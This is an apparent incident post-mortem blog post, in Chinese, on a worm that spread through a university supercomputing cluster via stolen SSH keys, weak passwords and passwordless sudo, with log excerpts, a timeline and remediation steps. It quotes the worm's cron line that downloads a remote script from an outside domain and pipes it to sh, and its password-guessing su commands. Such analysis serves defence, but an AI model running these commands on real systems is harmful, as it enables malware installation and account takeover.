

!!! abstract "AI Generated Abstract"

    本篇博客记录了超算队集群在 2025 年 3 月遭遇蠕虫病毒入侵的全过程，包括事发背景、入侵还原、事故处理及病毒分析。通过日志审计和系统完整性校验，团队成功还原了攻击路径，并采取了重装核心节点、调整网络结构等应急措施，最终恢复集群运行。

<!-- more -->

## 背景

本次事件涉及超算队集群和某实验室集群，部分网络架构示意图如下：



超算队集群的基本情况：

- 无盘系统架构：
    - 仅核心节点 storage 有状态，作为 NFS 服务器存储数据，运行可观测性等服务。
    - 计算节点无状态，通过 PXE 引导，根文件系统为 OverlayFS，底层目录挂载为只读 NFS。
- 用户管理：LDAP，所有节点使用统一的用户系统。
- 访问方式：
    - 外部：公网和校网暴露的端口均受 OpenNG（队员开发的多协议网关）保护。
    - 内部：未做访问控制，所有节点间 SSH 互通。

## 事发过程

2025 年 3 月 13 日晚，有同学发现计算节点 M603 DNS 解析出现问题。由于集群使用无盘系统架构，对于各种奇奇怪怪的故障问题，我们习惯通过重启解决。重启后一段时间内没有再次发现问题。

2025 年 3 月 15 日上午，M603 DNS 解析再次出现问题。下面是当日时间线：

- **10:47** @star 发现 `/etc/resolv.conf` 被篡改。群内询问无果，怀疑有脏东西。
- **16:30** @bowling 在 A700 上测试并开启了 sudoer 和 auditd 审计。
- **18:30** @bowling 发现集群对外网丢包率突发达到 100%。
- **21:00** @star 利用 OverlayFS 对 lowerdir 写时复制的特性，从 upperdir `/live/cow` 发现：

    - 关键可执行文件被篡改：

        ```text
        usr
        ├── bin
        │   ├── last
        │   ├── lastlog
        │   ├── ls
        │   ├── netstat
        │   ├── w
        │   └── who
        └── sbin
            ├── nologin
            └── rmt-tar
        ```

    - `/etc/cron.hourly/0` 有异常命令：

        ```bash
        wget --quiet http://cf0.pw/etc/cron.hourly/0 -O- 2>/dev/null|sh>/dev/null 2>&1
        ```

        在 Google 搜索该域名，发现大量关于蠕虫病毒的信息。

至此确认集群感染蠕虫病毒。随即开始对日志 sudo 命令进行审计，还原入侵过程。

## 入侵还原

入侵还原主要通过日志行为审计、询问相关人员、对系统进行完整性校验等方式进行。

- **2025-03-06 04:25:34** 某实验室 JumpServer 被校园网 IPS 入侵防御系统发现为口令破解攻击源。
- **2025-03-13 04:52:05** 攻击者通过暂未查明来源的 SSH 密钥登录 `zzm` 账户，经 JumpServer 入侵 pcie-up 服务器。入侵后立刻开始暴力破解服务器上所有账户的密码，日志中出现大量失败的 `su` 记录：

    ```text
    Mar 13 04:52:05 sct-pcie5-up sshd[662845]: Accepted publickey for zzm from ***.***.***.***(JumpServer) port 40744 ssh2: RSA SHA256:PJYq6uB2Vyeytlv5GzB/VRUHxhdpIj0kfl/WRbhxWII
    Mar 13 04:52:05 sct-pcie5-up sshd[662845]: pam_unix(sshd:session): session opened for user zzm(uid=1021) by (uid=0)
    Mar 13 04:52:05 sct-pcie5-up systemd-logind[2534]: New session 252 of user zzm.
    Mar 13 04:52:05 sct-pcie5-up systemd[662848]: pam_unix(systemd-user:session): session opened for user zzm(uid=1021) by (uid=0)
    Mar 13 04:52:05 sct-pcie5-up systemd[1]: Started Session 252 of User zzm.
    Mar 13 04:54:47 sct-pcie5-up sudo[663151]:      zzm : command not allowed ; TTY=pts/0 ; PWD=/home/zzm ; USER=root ; COMMAND=validate
    Mar 13 04:56:08 sct-pcie5-up su[663188]: pam_unix(su:auth): authentication failure; logname=zzm uid=1021 euid=0 tty=/dev/pts/0 ruser=zzm rhost=  user=zx
    ...
    Mar 13 04:57:04 sct-pcie-up su[710316]: pam_unix(su:auth): authentication failure; logname= uid=1021 euid=0 tty= ruser=zzm rhost= user=root
    Mar 13 04:57:06 sct-pcie-up su[710316]: FAILED SU (to root) zzm on none
    ```

- **2025-03-13 06:04:42** 攻击者成功破解弱密码账户 `zjusct`，开始收集服务器信息。`tkandi` 在该服务器上留下了登录超算队集群的密钥和配置文件，也被窃取。

    ```text
    Mar 13 06:04:42 sct-pcie5-up su[741663]: pam_unix(su:session): session opened for user zjusct(uid=1000) by zzm(uid=1021)
    Mar 13 06:04:50 sct-pcie5-up sudo[741671]: pam_unix(sudo:session): session opened for user root(uid=0) by zzm(uid=1000)
    ```

- **2025-03-13 08:57:36** 攻击者从 pcie-up 登陆计算节点 M600，正式进入超算队集群，注入 cron 任务。

    ```text
    2025-03-13 08:55:16.448 Accepted publickey for tkandi from ***.***.***.***(pcie-up) port 34028 ssh2: ED25519 SHA256:+jWKhy/TgGc8w9/r9VgKUK4HCuEZuhx34JmHI3RRnx0
    2025-03-13 08:57:36.915 pam_unix(sudo:session): session opened for user root(uid=0) by tkandi(uid=1005)
    2025-03-13 08:57:36.913 tkandi : TTY=pts/0 ; PWD=/home/tkandi ; USER=root ; COMMAND=/usr/bin/bash
    2025-03-13 09:17:01.298 (root) CMD (cd / && run-parts --report /etc/cron.hourly)
    ```

    超算队集群内所有账户 `sudo` 免密，导致所有用户私钥泄露。有同学在集群与个人设备间共用密钥对，为攻击者从公网直接访问集群提供了便利。

    病毒同样尝试破解账户密码，但由于超算队集群的无密码策略，其爆破手段未能成功。从 cgroup 快照中可以看到这是典型的字典爆破行为：

    ```text
    bash -c echo '43211234' | timeout 1.3 su azuk -c whoami 2>/dev/null
    bash -c echo '4b62c0bc' | timeout 1.3 su bowling -c whoami 2>/dev/null
    bash -c echo '5293946qwe' | timeout 1.3 su azuk -c whoami 2>/dev/null
    bash -c echo '564209317' | timeout 1.3 su cage -c whoami 2>/dev/null
    ...
    ```

- **2025-03-13 09:17:46** M600 的 SSH Daemon 被攻击者重启，配置文件或二进制本身可能被篡改。

    ```text
    2025-03-13 09:17:46.845 ssh.service: Deactivated successfully
    2025-03-13 09:17:46.844 Stopping ssh.service - OpenBSD Secure Shell server..
    2025-03-13 09:17:46.843 Received signal 15; terminating
    2025-03-13 09:17:46.846 Stopped ssh.service - OpenBSD Secure Shell server
    2025-03-13 09:17:46.876 Starting ssh.service - OpenBSD Secure Shell server...
    ```

- **2025-03-13 09:17:24** 攻击者首次使用用户 `xjun` 从公网访问超算队集群，登入计算节点 M603。随后 `/etc/resolv.conf` 被篡改，导致系统 DNS 解析出现问题。

    ```text
    2025-03-13 09:17:24.478 Accepted publickey for xjun from ***.***.***.***(OpenNG) port 47370 ssh2: ED25519 SHA256:NzPCMMOV5RrYD0ikVea2bEjSE70SJmHkoAVI16UWcGI
    2025-03-13 09:18:42.900 pam_unix(sudo:session): session opened for user root(uid=0) by xjun(uid=1025)
    2025-03-13 09:18:42.899 xjun : TTY=pts/0 ; PWD=/home/xjun ; USER=root ; COMMAND=/usr/bin/bash
    2025-03-13 10:22:55.858 unable to get system name
    ```

- **2025-03-13 12:46:28** 攻击者通过 `bowling` 的 SSH 配置文件跳板到 ZJU Mirror。所幸 Mirror 的密码复杂度较高，未能爆破成功。

    ```text
    2025-03-13 12:46:28.320 Accepted publickey for bowling from ***.***.***.***(集群校网) port 39121 ssh2: ED25519 SHA256:kFqyS5UJ1IgqPT79Y6BOj286/PhmO2KaK4ht6WT3wWk
    2025-03-13 12:46:28.323 pam_unix(sshd:session): session opened for user bowling(uid=1006) by (uid=0)
    2025-03-13 12:47:53.864 pam_unix(sudo:auth): authentication failure; logname=bowling uid=1006 euid=0 tty=/dev/pts/1 ruser=bowling rhost=  user=bowling
    2025-03-13 12:48:08.669 bowling : 3 incorrect password attempts ; TTY=pts/1 ; PWD=/home/bowling ; USER=root ; COMMAND=validate
    2025-03-13 13:10:30.381 pam_unix(su:auth): authentication failure; logname= uid=1006 euid=0 tty= ruser=bowling rhost=  user=cage
    2025-03-13 13:10:30.380 pam_unix(su:auth): authentication failure; logname= uid=1006 euid=0 tty= ruser=bowling rhost=  user=cage
    ...
    ```

- **2025-03-15 02:10:06** 攻击者从公网访问超算队集群，开始横向移动。最终使用管理员 `star` 的密钥对进入核心节点 storage。

    ```mermaid
    flowchart LR
    n2["Internet"]
    n2
    n2 ---|"ssh"| n6
    n6 ---|"ssh"| n7
    n7 ---|"su"| n1
    n1 ---|"ssh"| n3
    n3 ---|"su"| n4
    n4 ---|"ssh"| n5
    style s4 fill:#FF3131
    subgraph s5["信息中心虚拟化平台"]
    subgraph s7["ZJU Mirror"]
    n8["bowling"]
    end
    end
    subgraph s6["超算队内网"]
        subgraph s4["storage"]
        n5["root"]
        end
        subgraph s3["A700"]
        n4["star"]
        n3["rzm"]
        end
        subgraph s2["M602"]
        n1["rzm"]
        n7["xjun"]
        end
        subgraph s1["M603"]
    n9["bowling"]
        n6["xjun"]
        end
    end
    n6 --- n9
    n9 --- n8
    style s7 fill:#FF3131
    ```

## 事故处理

- **2025-03-15 21:00-24:00** 调查事故现场，完成集群内部溯源，确定影响范围，决定临时处置策略：
    - 重装核心节点 storage，与集群 LDAP 用户系统解绑。
    - 将数据目录设置为只读，继续观察外部攻击情况。
- **2025-03-16 00:00-01:00** 集群关闭，重装 storage。
- **2025-03-16 01:00-02:00** 恢复 storage 上的服务，恢复计算节点 M603 用于观察。
- **2025-03-16 02:00-04:00** 开始集群外部溯源，发现公共环境下的密钥泄露。吊销集群用户系统中所有密钥对。
- **2025-03-16 14:00-20:00** 调整网络结构，隔离安全程度和可控性不同的区域。集群恢复运行。

集群外部的事故处置不在本次事件范围。

## 病毒信息

对病毒的具体分析见[奇安信情报沙箱](https://sandbox.ti.qianxin.com/sandbox/page/detail?type=file&id=7f60d56b18a6d528ae0a7aafea5021f0e4ad287e)，相关的异常行为我们都在日志中找到了。该病毒通过爆破弱密码、窃取私钥等方式，在内网范围内疯狂传播，不仅会加载 ddos 工具等恶意 payload，还会定时修改系统关键文件，注入 ssh 公钥，使得被感染的机器成为可以被黑客完全控制的肉鸡。

本次攻击事件中，病毒主要通过 SSH Config 进行传播。

## 总结与反思

本次蠕虫病毒入侵事件，不仅是对超算队集群安全体系的一次严峻考验，也为我们敲响了网络安全的警钟：

- ZJU Mirror 等关键公共服务暴露于攻击中，关键运维人员安全意识不足。所幸本次遭遇的是蠕虫病毒，未造成重大损失。如果遭遇类似[LUG 服务器被入侵事件始末 | Bojie Li](https://01.me/2015/06/lug-servers-hacked/)的文件破坏事件，后果将不堪设想。
- 尽管我们对外部访问进行了严格的保护，但内部节点间的互通性和免密 sudo 机制为攻击者提供了可乘之机。未来，我们将进一步加强内部网络的访问控制，实施最小权限原则，并强制使用带 passphrase 的密钥对，杜绝密钥泄露的风险。

无盘系统架构和可观测性系统在此次事件中发挥了重要作用。通过 OverlayFS 的特性，我们能够快速定位系统文件的篡改情况；而基于 OpenTelemetry 的可观测性系统则帮助我们高效还原了入侵过程。这再次证明了自动化运维和集中监控在集群管理中的重要性。

校园网的安全形势依然严峻，弱口令、默认配置、管理混乱等问题普遍存在。希望通过此次事件的分享，能够为其他团队提供借鉴，避免类似事件的发生。我们呼吁各实验室和团队提高安全意识，定期进行安全检查和漏洞修复，共同构建一个更加安全的网络环境。
